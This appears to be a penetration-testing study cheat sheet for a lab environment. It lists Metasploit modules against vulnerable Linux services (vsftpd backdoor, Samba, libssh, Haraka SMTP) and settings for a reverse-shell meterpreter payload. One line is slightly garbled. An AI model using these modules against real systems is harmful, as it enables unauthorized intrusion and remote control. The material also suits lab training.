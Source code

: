 # Linux Exploitation

### FTP server
Module: **exploit/unix/ftp/vsftpd_234_backdoor**

### Samba
SMB for Linux  
This allows Windows systems to access Linux devices  
Version 3.5.0 is vulnerable to RCE  
Module: **exploit/linux/samba/is_known_pipename**

### SSH server
libsh v0.6.0-0.8.0 is vulnerable to an authentication bypass vulnerability. This can allow us to run remote commandsNate Dykstra
check if it is vulnerable  
Module: **auxiliary/scanner/ssh/livssh_auth_bypass**  
set spawn_pty to true to launch a terminal session  

### SMTP
Haraka is an open source SMTP server developed in node.js  
Haraka SMTP comes with a plug in for proccessing attachments. Versions 2.8.9 and earlier are vulnerable to command injection  
Module: **exploit/linux/smtp/haraka**  
options
- SRVPORT = 9898
- email_to = root@attackdefense.test
- payload = linux/x64/meterpreter_reverse_http
- LHOST = local IP
